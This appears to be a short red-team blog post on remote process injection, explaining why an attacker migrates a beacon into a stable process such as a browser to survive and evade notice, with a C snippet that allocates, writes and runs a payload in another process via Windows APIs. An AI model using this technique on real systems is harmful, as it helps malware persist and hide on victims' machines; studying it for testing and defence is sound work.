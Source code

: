 ```yaml
---
title: Remote Process Injection
date: 2023-03-14 12:00:00 -500
categories: [blog]
tags: [code_execution]

---
```


# What is process injection and why do we need it?

Process injection is the act of creating a copy of your shellcode in the current process and copying it across to the memory space of a different process and remotely executing that code.

There are mulitiple ways of getting initial access during a Red Team campaign, but, through whichever means you get a successful beacon out to your control server, your first call home will be short lived most of the time. If you use phishing or a Trojan for instance, you would want to migrate your beacon code to a more stable long term process that will not die when the victim closes the application. Process injection can also be helpful if you are concerned about OPSEC. Migrating your code/beacon over to a web browser process will blend in much better than calc connecting out to the internet.  

# Implementing Process Injection

Process injection involves much of the same steps as we have already discussed in [this](https://coppertop-6.github.io/posts/Windows_Dropper/) post. We will make use of 3 Windows APIs that were designed for debugging processes, namely [VIrtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex), [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) and [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread). You might recognise these APIs and that is because it is the same APIs we used during the dropper design phase, but only for use in remote processes.

```c#
LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;

  
        pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
        
        hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
```
